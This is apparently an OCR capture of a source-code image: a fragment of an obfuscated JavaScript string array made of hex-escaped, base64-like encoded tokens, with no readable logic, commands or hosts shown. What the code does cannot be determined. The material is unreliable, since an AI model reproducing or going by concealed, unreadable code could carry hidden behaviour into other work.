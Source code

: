 '\x77\x36\x56\x51\x63\x77\x3d\x3d', '\x5a\x38\x4b\x64\x77\x72\x62\x44\x6e\x73\x4f\x46\x63\x47\x73\x3d', '\x77\x35\x66\x44\x70\x41\x49\x3d', '\x77\x37\x44\x43\x69\x38\x4f\x59\x77\x37\x56\x31\x55\x63\x4b\x2f\x77\x37\x72\x44\x73\x38\x4f\x62', '\x56\x73\x4b\x39\x61\x38\x4b\x30\x77\x72\x37\x43\x75\x79\x2f\x44\x6f\x78\x72\x43\x6f\x47\x63\x3d', '\x50\x63\x4b\x32\x45\x77\x41\x68\x4f\x52\x46\x66\x77\x71\x77\x4e\x77\x34\x35\x4b\x77\x70\x72\x44\x6f\x30\x62\x44\x73\x38\x4b\x64\x77\x34\x77\x71\x77\x72\x4a\x48\x46\x73\x4f\x51\x50\x73\x4f\x6c\x77\x35\x50\x44\x6c\x73\x4f\x4c\x77\x72\x52\x31\x4c\x48\x31\x62\x47\x54\x51\x71\x77\x6f\x45\x6b\x77\x37\x49\x76', '\x41\x43\x55\x76', '\x77\x35\x50\x44\x6c\x4d\x4f\x53', '\x62\x63\x4b\x77\x77\x71\x55\x3d', '\x43\x57\x38\x57', '\x77\x37\x2f\x43\x6d\x56\x4d\x3d', '\x4c\x73\x4f\x59\x77\x71\x59\x68\x47\x6b\x5a\x74\x42\x4d\x4f\x49\x48\x38\x4b\x53', '\x64\x73\x4f\x48\x56\x73\x4f\x77\x77\x72\x41\x43\x4d\x41\x73\x3d', '\x51\x63\x4b\x39\x51\x73\x4b\x4b\x77\x70\x37\x43\x6d\x69\x37\x44\x73\x67\x66\x43\x6f\x58\x49\x3d', '\x65\x4d\x4b\x59\x77\x72\x62\x44\x73\x63\x4b\x31\x77\x34\x31\x69\x64\x51\x3d\x3d', '\x77\x6f\x76\x43\x69\x52\x55\x3d', '\x77\x36\x37\x44\x74\x6b\x34\x3d', '\x77\x34\x50\x44\x74\x73\x4b\x49', '\x77\x37\x44\x44\x71\x63\x4b\x34\x55\x41\x3d\x3d', '\x77\x72\x58\x44\x6a\x54\x37\x44\x68\x73\x4f\x62\x57\x73\x4b\x41', '\x59\x63\x4b\x6c\x64\x41\x3d\x3d', '\x77\x70\x6e\x44\x71\x7a\x56\x66\x61\x51\x6e\x44\x71\x4d\x4b\x6a\x44\x67\x72\x43\x73\x63\x4f\x4c\x77\x71\x66\x44\x72\x38\x4b\x34\x77\x36\x4d\x43\x63\x4d\x4f\x61\x77\x35\x62\x44\x6f\x63\x4f\x53\x56\x73\x4f\x31\x77\x35\x50\x43\x73\x63\x4b\x78\x77\x6f\x7a\x43\x6c\x77\x74\x73', '\x56\x4d\x4f\x46\x77\x35\x59\x3d', '\x77\x37\x50\x44\x70\x63\x4f\x74', '\x46\x78\x67\x35', '\x77\x36\x72\x44\x6d\x6d\x49\x3d', '\x77\x37\x49\x6f\x77\x6f\x30\x3d', '\x77\x71\x48\x44\x68\x4d\x4f\x55\x77\x36\x4d\x3d', '\x77\x72\x39\x6f\x77\x71\x6b\x3d', '\x58\x38\x4f\x4e\x77\x35\x38\x3d', '\x65\x4d\x4f\x4e\x58\x63\x4f\x72', '\x55\x73\x4b\x72\x77\x72\x55\x3d', '\x77\x34\x50\x43\x6a\x6b\x6a\x43\x6b\x73\x4b\x34\x77\x72\x73\x3d', '\x65\x57\x2f\x43\x72\x38\x4b\x58', '\x77\x71\x72\x43\x6c\x38\x4f\x41', '\x77\x36\x78\x2b\x57\x67\x3d\x3d', '\x77\x72\x68\x6d\x77\x72\x44\x44\x6e\x51\x3d\x3d', '\x77\x72\x7a\x44\x70\x30\x50\x43\x74\x63\x4f\x4c\x77\x6f\x34\x3d', '\x66\x4d\x4b\x55\x53\x67\x34\x46\x64\x67\x3d\x3d', '\x46\x6b\x4a\x39', '\x77\x35\x73\x42\x77\x72\x63\x3d', '\x77\x37\x59\x4c\x77\x70\x67\x4a\x61\x4d\x4b\x4d\x45\x4d\x4f\x30\x47\x51\x3d\x3d', '\x5a\x58\x2f\x43\x73\x73\x4b\x59\x45\x67\x59\x3d', '\x58\x38\x4f\x61\x52\x67\x3d\x3d', '\x77\x34\x67\x37\x57\x67\x3d\x3d', '\x77\x36\x39\x39\x77\x71\x76\x44\x68\x73\x4f\x43', '\x4c\x52\x67\x74\x77\x71\x6b\x53\x66\x77\x3d\x3d', '\x43\x38\x4f\x4c\x77\x72\x6f\x3d', '\x77\x35\x58\x43\x69\x48\x38\x3d', '\x77\x71\x73\x39\x77\x37\x54\x44\x67\x4d\x4b\x38\x51\x67\x3d\x3d', '\x59\x43\x62\x44\x76\x38\x4b\x6b\x77\x36\x70\x6b', '\x62\x38\x4b\x71\x58\x67\x3d\x3d', '\x43\x38\x4f\x32\x77\x72\x6f\x3d', '\x77\x72\x58\x44\x6f\x4d\x4b\x7a\x77\x71\x76\x43\x70\x73\x4b\x45', '\x77\x71\x66\x43\x68\x48\x33\x43\x73\x67\x38\x3d', '\x57\x4d\x4b\x63\x77\x6f\x6b\x3d', '\x77\x6f\x44\x43\x73\x55\x45\x3d', '\x77\x36\x4d\x78\x77\x72\x55\x42\x77\x70\x7a\x43\x69\x46\x6e\x43\x68\x73\x4f\x4f', '\x77\x72\x37\x44\x6a\x53\x54\x44\x74\x63\x4f\x47\x58\x77\x3d\x3d', '\x77\x37\x34\x36\x53\x77\x3d\x3d', '\x77\x70\x4c\x44\x73\x63\x4b\x47', '\x64\x38\x4b\x64\x41\x7a\x77\x41\x77\x36\x4a\x44\x77\x35\x31\x33\x4e\x77\x3d\x3d', '\x5a\x30\x44\x43\x74\x77\x3d\x3d', '\x77\x37\x7a\x44\x75\x63\x4f\x71\x77\x72\x35\x31\x4e\x77\x3d\x3d', '\x50\x73\x4b\x42\x53\x67\x3d\x3d', '\x65\x38\x4f\x32\x77\x36\x55\x3d', '\x77\x36\x4c\x43\x71\x7a\x73\x72\x77\x6f\x38\x3d', '\x64\x69\x66\x43\x74\x6e\x34\x67\x53\x67\x3d\x3d', '\x52\x33\x4c\x43\x75\x41\x3d\x3d', '\x4c\x38\x4b\x68\x77\x70\x6b\x3d', '\x77\x37\x6b\x38\x58\x31\x6c\x39\x4c\x54\x50\x44\x74\x41\x3d\x3d', '\x43\x38\x4b\x43\x50\x51\x3d\x3d', '\x77\x35\x37\x43\x69\x45\x30\x3d', '\x77\x37\x62\x44\x69\x4d\x4f\x63\x77\x36\x4e\x72\x56\x38\x4b\x35\x77\x72\x2f\x44\x70\x63\x4b\x51\x49\x63\x4b\x73\x4b\x4d\x4f\x44\x77\x71\x58\x44\x6c\x41\x3d\x3d', '\x64\x4d\x4b\x56\x56\x67\x3d\x3d', '\x4b\x63\x4b\x75\x77\x71\x77\x3d', '\x57\x4d\x4f\x71\x77\x35\x34\x3d', '\x77\x36\x59\x7a\x77\x71\x51\x44\x77\x70\x50\x43\x6a\x32\x6a\x43\x68\x73\x4f\x53\x59\x58\x59\x45\x77\x72\x33\x43\x68\x77\x74\x38\x77\x71\x6b\x3d', '\x77\x36\x44\x43\x6d\x53\x4c\x43\x75\x31\x6a\x44\x73\x6c\x2f\x44\x74\x4d\x4f\x32', '\x52\x48\x7a\x43\x67\x51\x4a\x61', '\x54\x73\x4b\x75\x77\x71\x4d\x3d', '\x77\x72\x76\x44\x68\x38\x4f\x49\x77\x36\x70\x73\x56\x73\x4b\x2b', '\x64\x6e\x64\x61\x77\x71\x2f\x43\x67\x6e\x31\x65\x77\x70\x31\x57', '\x53\x73\x4f\x55\x77\x34\x6f\x52\x77\x70\x6f\x3d', '\x77\x36\x4c\x43\x6c\x7a\x63\x3d', '\x77\x37\x6a\x44\x67\x63\x4f\x74\x48\x63\x4b\x70\x77\x70\x6b\x34', '\x54\x4d\x4f\x4b\x77\x34\x49\x64\x77\x6f\x68\x69\x77\x35\x54\x44\x6f\x6c\x67\x3d', '\x77\x35\x6a\x44\x72\x63\x4b\x69\x55\x73\x4b\x73\x77\x70\x67\x3d', '\x77\x6f\x44\x43\x6b\x56\x38\x3d', '\x52\x32\x44\x43\x6d\x41\x78\x48\x77\x34\x59\x6e\x44\x73\x4b\x4d\x54\x52\x67\x50\x63\x63\x4f\x54\x47\x63\x4b\x59\x77\x37\x62\x44\x6e\x38\x4f\x47\x77\x72\x6b\x51\x77\x36\x38\x51\x47\x4d\x4b\x33\x59\x73\x4b\x79\x50\x73\x4b\x67\x46\x68\x6e\x43\x6f\x4d\x4b\x56\x4d\x51\x3d\x3d', '\x77\x72\x33\x44\x75\x4d\x4f\x74', '\x4e\x42\x4d\x6e\x77\x71\x73\x41\x66\x6a\x5a\x39\x44\x51\x3d\x3d', '\x77\x34\x72\x44\x76\x6d\x67\x49\x65\x31\x6e\x44\x75\x63\x4f\x31\x55\x6c\x4c\x44\x73\x63\x4b\x58\x77\x36\x62\x44\x76\x63\x4f\x75\x77\x37\x70\x63\x5a\x63\x4b\x44\x77\x34\x2f\x43\x74\x41\x3d\x3d', '\x77\x71\x54\x44\x6a\x69\x77\x3d', '\x61\x73\x4b\x63\x54\x78\x51\x46', '\x63\x4d\x4f\x75\x77\x6f\x6b\x39\x77\x71\x70\x30', '\x61\x54\x4c\x43\x74\x48\x41\x67', '\x52\x32\x50\x43\x6e\x51\x3d\x3d', '\x59\x69\x7a\x43\x73\x63\x4b\x6d\x77\x36\x5a\x34\x47\x4d\x4f\x36\x77\x70\x37\x44\x74\x6b\x41\x59',